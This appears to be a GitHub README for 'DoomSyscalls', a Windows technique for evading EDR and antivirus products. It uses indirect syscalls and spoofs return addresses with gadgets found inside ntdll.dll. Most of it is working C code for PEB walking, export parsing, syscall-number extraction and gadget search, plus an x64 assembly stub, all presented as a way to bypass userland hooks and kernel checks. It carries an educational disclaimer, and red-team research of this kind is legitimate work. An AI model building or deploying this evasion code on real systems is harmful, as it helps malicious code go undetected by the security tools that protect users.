




<div align="center" markdown="1">
  
  </br>
  <sup>Destroying EDRs & AVs</sup>
</div>

# DoomSyscalls

DoomSyscalls is a new method of performing clean indirect syscalls.
The primary component is dynamically resolving **System Service Numbers** (SSNs), and `syscall` instruction addresses.
The secondary component is **RIP** spoofing via addresses within `ntdll.dll`.
The combination of both should bypass any userland hooks & kernel level checks.

**Disclaimer**: The purpose of this is for educational purposes and testing only.
Do not use this on machines you do not have permission to use.
Do not use this to leverage and communicate with machines that you do not have authorization to use.

## Preamble.

Indirect syscalls is a method of performing syscalls to bypass **Endpoint Detection & Response** (EDR).
EDRs will hook into `ntdll.dll` to inspect elements before syscalls.
This is widely used by researchers and red-teamers.
For the most part, and from the user perspective, this bypasses any checks before execution.
Some EDRs will run at the kernel level;
If such security solutions inspect the return address, and it lies outside of `ntdll.dll`, this is a sign of tampering.

To minimize detections, a user can handcraft a function call that resembles one that came from trusted memory.
This will be considered my documentation and research to bypassing AV and EDR;
This approach will be aligned with standard operating procedures from Windows x64.

## How it works.

There will be 2 parts to building a manual syscall stub.
For the first, we will find the exports from `ntdll.dll`.
We will parse the export data for the desired SSN and `syscall` address.
For the second, we will parse exported functions, but for a specific series of instructions.
The instructions will be `ADD RSP, 0xXX; RET`.
We will save the address, and push it to the top of the stack as the return address.
This, both, bypasses userland hooks, and obfuscates the return address as a safe address.

Every **Dynamically Linked Library** (DLL) comes with exported information.
From the exported information, we find things like `NumberOfNames`, `ArrayOfNames`, `ArrayOfNameOrdinals`, & `ArrayOfFunctions`.
The index of the name correlates the index of an ordinal.
This ordinal correlates to a function address within the DLL.

By calculating the desired functions address, we can check each byte to find the SSN & `syscall` address.
This will be used to manually stub before jumping to the syscall.

For the stack manipulation and return, we will search random functions for similar instructions.
If one that is suitable is found (the 0x58 or more is added to the stack pointer), this will be used as our spoofed return address.
Before spoofing, we will subtract that said amount from the stack pointer and copy all arguments to the new stack location.
Finally, push the spoof return address for a clean indirect syscall.

## Example.

<div align="center" markdown="1">
  <sup>Breakpoint set in x64dbg</sup>
  </br>
  
  </br>
  </br>
  
  </br>
  </br>
</div>

Each syscall is resolved dynamically.
With every syscall, a unique return is found in `ntdll.dll`. 
It subtracts an amount bigger than 0x58 or greater from the stack pointer, then returns immediately.

When observing this in execution, we can see all the syscalls resolved.
Each SSN and `syscall` instruction address is saved.
A unique return is obtained and saved.
When calling our franken-stub, we adjust the stack pointer that of which we captured.
We then copy all arguments to the new region of stack.
Perform manual stubbing `mov r10, rcx; mov eax, [rel ssn]`.
Finally, jump to the `syscall` instruction.

With all in place, we hand off execution to the kernel.
We start executing again at `ret`, where we land at our unique landing pad.
The value obtained is subtracted from the stack pointer.
At last, `ret` is executed where the RIP lands back at our code.

<div align="center" markdown="1">
  <sup>Continuing execution</sup>
  </br>
  
  </br>
  </br>
</div>

## Technicals.

###### Export parsing.

```c
// The segment register (GS) contains a pointer the the TEB.
// At the 0x60 byte offset contains a pointer to the PEB.
ULONG_PTR GET_NTDLL() {
        ULONG_PTR pPEB          =  __readgsqword(0x60);
        ULONG_PTR pLdrData      = *(ULONG_PTR *) (pPEB + 0x18);
        ULONG_PTR pMdlList      = *(ULONG_PTR *) (pLdrData + 0x30);
        ULONG_PTR pModule       = *(ULONG_PTR *) (pMdlList + 0x10);

        return pModule;
}

// From the base address, the 0x3C offset contains the offset to the NT Headers
// From the NT Headers, the 0x88 offset contains the offset to the Export Directory.
VOID INIT_NTDLL_CONFIG() {
        ULONG_PTR pNtdll        = GET_NTDLL();
        ULONG_PTR pNtHdr        = (pNtdll + *(ULONG *) (pNtdll + 0x3C));
        ULONG_PTR pExpDir       = (pNtdll + *(ULONG *) (pNtHdr + 0x88));

        NTDLL_CONFIG.pModule            = pNtdll;
        NTDLL_CONFIG.NumberOfNames      = *(ULONG *) (pExpDir + 0x18);
        NTDLL_CONFIG.ArrayOfAddresses   = (pNtdll + *(ULONG *) (pExpDir + 0x1C));
        NTDLL_CONFIG.ArrayOfNames       = (pNtdll + *(ULONG *) (pExpDir + 0x20));
        NTDLL_CONFIG.ArrayOfOrdinals    = (pNtdll + *(ULONG *) (pExpDir + 0x24));
}
```

###### Locating SSN and syscall.

```c
// Parsing over every name to compare it to a given hash.
// Once a hash matches, that index reflects an ordinal.
// That ordinal reflects the address to a function.
// Parsing over the function bytes, find the SSN and syscall address.
VOID GET_NTDLL_FUN(ULONG SymbolHash, PNTDLL_FUNCTION SymbolData) {
        if (!NTDLL_CONFIG.pModule)
                INIT_NTDLL_CONFIG();

        for (UINT index = 0; index != NTDLL_CONFIG.NumberOfNames; index++) {
                PCHAR SymbolName = (PCHAR) (NTDLL_CONFIG.pModule + *(ULONG *) (NTDLL_CONFIG.ArrayOfNames + (index * 4)));

                if (ROR7_32(SymbolName) != SymbolHash)
                        continue;

                USHORT SLOT             = *(USHORT *) (NTDLL_CONFIG.ArrayOfOrdinals + (index * 2));
                SymbolData->SyscallStub = (NTDLL_CONFIG.pModule + *(ULONG *) (NTDLL_CONFIG.ArrayOfAddresses + (SLOT * 4)));
                break;
        }
        for (UINT index = 0; index != 255; index++) {
                if ((*(ULONG *) (SymbolData->SyscallStub + index) & 0xFF0000FF) != 0x000000B8)
                        continue;

                SymbolData->SystemServiceNumber = *(ULONG *) (SymbolData->SyscallStub + index + 1);
                break;
        }
        for (UINT index = 0; index != 255; index++) {
                if (*(USHORT *) (SymbolData->SyscallStub + index) != 0x050f)
                        continue;

                SymbolData->SyscallInstruction = SymbolData->SyscallStub + index;
                break;
        }
}
```

###### Locating dummy return addresses.

```c
// Parse over any given function, if there contains an ideal setup, return.
BOOL IDEAL(ULONG_PTR START, ULONG_PTR *RETURN, CHAR *SIZE) {
        for (UINT index = 0; index < 255; index++) {
                ULONG_PTR SEARCH        = *(ULONG_PTR *) (START + index);
                CHAR AMOUNT             = *(CHAR *)      (START + index + 3);

                if (
                        (((SEARCH & 0x000000FF00FFFFFF) == 0x000000C300C48348) || 
                        ((SEARCH & 0xFFFFFFFF00FFFFFF) == 0xC300000000C48148)) && 
                        (AMOUNT >= 0x58)
                ) {
                        *RETURN         = START + index;
                        *SIZE           = AMOUNT;
                        return TRUE;
                }
        }
        return FALSE;
}

// Parse over all functions, and check if it contains an ideal return.
VOID FIND_DUMMY_RETURN(PNTDLL_FUNCTION SymbolData) {
        UINT random     = rand() % NTDLL_CONFIG.NumberOfNames;
        UINT start      = 0;

        for (UINT index = 0, start = 0; index < NTDLL_CONFIG.NumberOfNames; index++, start++) {
                if ((start + random) == NTDLL_CONFIG.NumberOfNames)
                        start = 0 - random;
                
                USHORT SLOT     = *(USHORT *) (NTDLL_CONFIG.ArrayOfOrdinals + ((start + random) * 2));
                ULONG_PTR START = (NTDLL_CONFIG.pModule + *(ULONG *) (NTDLL_CONFIG.ArrayOfAddresses + (SLOT * 4)));
                
                if (IDEAL(START, &SymbolData->DummyReturnPointer, &SymbolData->StackSize))
                        break;
        }
}
```

###### Stubbing.

```x86asm
RUN_SYSCALL:
        ; ADJUST STACK
        MOV     AL,     BYTE    [REL STACK_SIZE]
        SUB     RSP,    RAX
        ; SPOOF RETURN
        MOV     RAX,    QWORD   [REL DUMMY_RETURN]
        PUSH    RAX
        ; COPY PARAMS
        ...
STUB:
        ; MANUAL STUB
        MOV     R10,    RCX
        MOV     EAX,    DWORD   [REL SYSTEM_SERVICE_NUMBER]
        JMP     QWORD   [REL SYSCALL_ADDRESS]
```